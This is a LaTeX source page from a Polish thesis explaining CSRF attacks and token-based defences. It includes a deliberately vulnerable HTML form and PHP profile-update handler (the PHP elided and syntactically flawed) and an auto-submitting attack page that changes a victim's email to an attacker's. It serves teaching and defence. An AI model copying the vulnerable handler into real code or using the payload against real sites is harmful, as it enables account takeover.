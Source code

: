 \documentclass[11pt,a4paper,polish,thesis,oneside]{dcsbook}
\begin{document}
Współcześnie zręby projektowe, na podstawie których buduje się aplikacje internetowe, posiadają już gotowe zabezpieczenia przed atakiem CSRF przy pomocy żetonów. Do każdego wygenerowanego formularza (i równocześnie sesji użytkownika) przynależy żeton CSRF o losowej wartości, który należy przekazać w żądaniu do serwera. Zazwyczaj żeton ten jest przechowywany w formularzu w postaci ukrytego pola. Atakujący musiałby najpierw pobrać zawartość strony z formularzem aby poznać wartość, jaką następnie musiałby przekazać podczas wykorzystywania uprawnień ofiary.

\subsubsection*{Przykład}
\begin{lstlisting}[language=html,frame=single,caption=przykładowy kod HTML podatny na atak CSRF \cite{csrf-example},label=csrf01,numbers=left]
<form action="/url/profile.php" method="post">
<input type="text" name="firstname"/>
<input type="text" name="lastname"/>
<br/>
<input type="text" name="email"/>
<input type="submit" name="submit" value="Update"/>
</form>
\end{lstlisting}

\begin{lstlisting}[language=php,frame=single,caption=przykładowy kod PHP podatny na atak CSRF \cite{csrf-example},label=csrf02,numbers=left]
// initiate the session in order to validate sessions

session_start();

//if the session is registered to a valid user then allow update

if (! session_is_registered("username")) {

echo "invalid session detected!";

// Redirect user to login page
[...]

exit;
}

// The user session is valid, so process the request
// and update the information

update_profile();

function update_profile {
// read in the data from $POST and send an update
// to the database
SendUpdateToDatabase($_SESSION['username'], $_POST['email']);
[...]
echo "Your profile has been successfully updated.";
}
\end{lstlisting}

\begin{lstlisting}[language=html,frame=single,caption=przykładowy kod HTML wykorzystujący atak CSRF \cite{csrf-example},label=csrf03,numbers=left]
<SCRIPT>
function SendAttack () {
form.email = "attacker@example.com";
// send to profile.php
form.submit();
}
</SCRIPT>

<BODY onload="javascript:SendAttack();">

<form action="http://victim.example.com/profile.php" id="form" method="post">
<input type="hidden" name="firstname" value="Funny">
<input type="hidden" name="lastname" value="Joke">
<br/>
<input type="hidden" name="email">
</form>
\end{lstlisting}
\end{document}
